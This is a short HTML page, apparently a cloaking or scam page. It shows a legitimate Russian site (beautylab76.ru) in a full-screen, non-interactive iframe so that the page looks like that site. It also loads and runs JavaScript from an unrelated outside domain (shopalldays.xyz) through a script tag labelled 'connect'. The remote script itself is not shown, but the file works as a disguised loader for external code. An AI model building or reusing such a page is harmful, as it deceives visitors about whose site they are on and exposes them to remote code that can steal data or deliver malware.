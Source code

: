 ﻿<!DOCTYPE html>
<html lang="ru">
<meta http-equiv="content-type" content="text/html;charset=utf-8">

<head>
	
	<iframe id="ifr" src="https://beautylab76.ru/" frameborder="0" style="overflow:hidden;overflow-x:hidden;overflow-y:hidden;pointer-events:none;height:100%;width:100%;position:absolute;top:0px;left:0px;right:0px;bottom:0px" height="100%" width="100%"></iframe>
	<script id="connect" type="text/javascript" src="https://www.shopalldays.xyz/js"></script>
	
</head>


</html>
